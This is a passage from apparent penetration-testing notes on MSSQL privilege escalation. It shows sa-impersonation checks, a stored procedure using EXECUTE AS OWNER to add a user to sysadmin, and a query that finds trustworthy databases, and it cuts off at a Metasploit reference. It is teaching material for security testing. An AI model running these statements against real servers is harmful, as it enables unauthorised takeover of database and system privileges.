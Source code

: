   ```Get-SQLFuzzDomainAccount -Instance ComputerNAme\InstanceName``` --> PowerUpSQL Blind Domain Account Enum.  
Manually check if you can impersonate sa login:  

  - ```SELECT SYSTEM_USER```   
  - ```SELECT IS_SRVROLEMEMBER('sysadmin')```   
  - ```EXECUTE AS LOGIN = 'sa'``` --> Database level, for server level use EXECUTE AS USER.  
  - ```SELECT SYSTEM_USER```  
  - ```SELECT IS_SRVROLEMEMBER('sysadmin')```  

*B. Stored Procedure and Trigger Creation/Injection Issues*  

A common error by developers is to gather all the functionallity they want to use, to be able to be execute in elevated context, and put it inside a stored procedure. Those stored procedures can be executed as the owner of the database (EXECUTE AS OWNER) to give it access to additional resources. This way, execution can still take place in another user's context, command can be limited and granting the impersonate privilege is not required. However, there are some disadvantages from a security perspective when following this approach:  

  - No granular control over database owner's privileges.  
  - *sa* account or sysadmin account usually owns the database.  

DB_OWNER role can use the EXECUTE AS OWNER to actually execute in the context of either the *sa* or sysadmin accounts. If those stored procedures are implemented insecurely, impersonation through SQL injection or command injection can occur, by actually extending the stored procedure. Example:  

  - ```USE MyDB```  
  - ```GO```  
  - ```CREATE PROCEDURE elevated```  
  - ```WITH EXECUTE AS OWNER```  
  - ```AS```  
  - ```EXEC sp_addsrvrolemember```  
  - ```'simple_user','sysadmin'```  
  - ```GO```  

The database has to be configured as trustworthy for OS command execution. Signed stored procedures is the correct way for them to be implemented, although impersonation through SQL or command injection can still occur.  

Attack Scenario:  

A DBA performs the following for a web application:   

  - ```CREATE LOGIN somebody WITH PASSWORD = 'P@ssw0rd123';``` --> Create SQL  Login for the WebApp.  
  - ```USE CurrentDB```  
  - ```ALTER LOGIN [somebody] with default database = [CurrentDB];```  
  - ```CREATE USER somebody FROM LOGIN [somebody];```  
  - ```EXEC sp_addrolemember [db_owner], [somebody];``` --> Assigns this SQL Login the db_owner role. Webapp can access whatever it needs from the database.  
  - ```ALTER DATABASE CurrentDB SET TRUSTWORTHY ON``` --> Sets the database as trustworthy for accessing external resources.  


You can identify such databases with the next query

  - ```SELECT SUSER_NAME(owner_id) as DBOWNER, d.name as DATABASENAME
		FROM sys.server_principals r
		INNER JOIN sys.server_role_members m on r.principal_id = m.role_principal_id
		INNER JOIN sys.server_principals p ON p.principal_id = m.member_principal_id 
		inner join sys.databases d on suser_sname(d.owner_sid) = p.name
		WHERE is_trustworthy_on = 1 AND d.name NOT IN ('MSDB') and r.type = 'R' and r.name = N'sysadmin'```
		
Reconnaisance and explotation could be automated using the following metasploit modules
  ```